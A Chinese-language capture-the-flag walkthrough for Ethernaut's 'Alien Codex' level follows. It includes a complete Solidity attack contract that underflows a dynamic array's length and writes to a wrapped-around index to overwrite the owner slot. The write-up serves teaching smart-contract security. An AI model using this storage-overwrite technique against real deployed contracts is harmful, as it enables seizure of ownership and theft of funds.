


# Level 19: Alien Codex

## 1. 问题

要求我们修改 `AlienCodex` 合约，将合约的所有权变成我们的某个地址

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

## 2. 解法

> [!TIP]
> 本题核心是使用 EVM 中 storage 的存储特性，使用 `bytes32[] public codex` 的数组指针进行大范围跳跃，看似是修改 `codex` 数组中某个元素的值，实际是修改 `owner` 地址

1. 这个合约没有看到任何关于 `owner` 的函数接口，猜测大概率在 `Ownable` 里面。因为我们看不到，所以尝试通过合约地址反向解析

1. 我们先通过合约地址，在区块链浏览器上查询 [0x17fdA85485C0654eb7Dda2e82b1657793567E6c7](https://sepolia.etherscan.io/address/0x17fdA85485C0654eb7Dda2e82b1657793567E6c7#code) 的字节码：



2. 通过 abi 解密的工具，查看这个合约的所有函数 [https://ethervm.io/decompile](https://ethervm.io/decompile):



```solidity
function owner() returns (var r0) { return storage[0x00] & 0xffffffffffffffffffffffffffffffffffffffff; }

function isOwner() returns (var r0) { return msg.sender == storage[0x00] & 0xffffffffffffffffffffffffffffffffffffffff; }
```

> 1. 我们可以通过 `chisel` 打印 `abi.encodeWithSignature("makeContact()")` 结果，发现就是 `0x328b52cb`
>    所以上图中 `0x328b52cb Unknown` 对应的就是 `makeContract()` 函数
>
> 2. 我们也可以看到 `record(bytes32 _content)` 修改的变量是处于 `storage[0x01]` 开头的变量，所以推测合约的父类还定义了一个变量，大概率就是这个 `owner`, 我们不能直接通过 `revise(0, ***)` 来修改 `owner` 地址

4. 所以我们的目标就是设置 `storage[0x00]`, 使其值为我们的地址。我们使用下面的代码编译，然后在 `remix` 中[调用](https://sepolia.etherscan.io/tx/0xf21535fb58e1d94158839c9bec12888edde0984b4657220f6b1821a9722281c9):

```solidity
contract AlienCodexHack {
    constructor(address _alienCodex) public {
        AlienCodex codex = AlienCodex(_alienCodex);

        // 打开操作开关, 避免 `contacted` modifier 组织我们调用合约接口
        codex.makeContact();

        // 初始数组size为0，减一后相当于变成最大值，可以访问合约 2^256 个slot中任意一个了
        // 让codex的length变成最大值，确保后续访问任意一个下标都不会越界
        codex.retract();

        // 通过观察storage，我们能猜到ownable占了storage[0x00]
        // 我们看到的 `bool public contact` 也在 storage[0x00]，在owner左侧
        // 所以数组 `bytes32[] public codex` 的storage位置是 `0x01`
        // 所以 codex[0] 的storage位置是 `uint256(keccak256(abi.encodePacked(uint256(1))))`
        uint256 storageIndexOfArray0 = uint256(keccak256(abi.encodePacked(uint256(1))));

        // 0.5.*版本使用这个语法： relativeIndexOfStorage0x00 = -storageIndexOfArray0;
        // 0.8.*版本使用这个语法： relativeIndexOfStorage0x00 = type(uint256).max - storageIndexOfArray0 + 1;
        uint256 relativeIndexOfStorage0x00 = -storageIndexOfArray0;

        // 当前的array，往后移动 storageIndexOfArray0 个位置, 正好就回到了 storage[0x00] 的位置
        // 所以这里我们把 storage[0x00] 设置为 this 的地址
        codex.revise(relativeIndexOfStorage0x00, bytes32(uint256(uint160(msg.sender))));
    }
}

```

> [!TIP]
> 这里我们提供一个测试文件 [Level19.t.sol](../../test/level19/Level19_localTest.t.sol), 可以在提交之前进行本地调试，调试成功再在测试链上执行
>
> - 这里本地调试使用的是 `0.8.x` 版本做测试，有一些语法和 `0.5.x` 版本不一样，详细看代码注释

9. 点击 `submit instance`，提交通过！

<br/>
<br/>

| [⬅️ level18 Magic Number](../level18_magicnumber/README.md) | [level20 Denial ➡️](../level20_denial/README.md) |
| :---------------------------------------------------------- | -----------------------------------------------: |
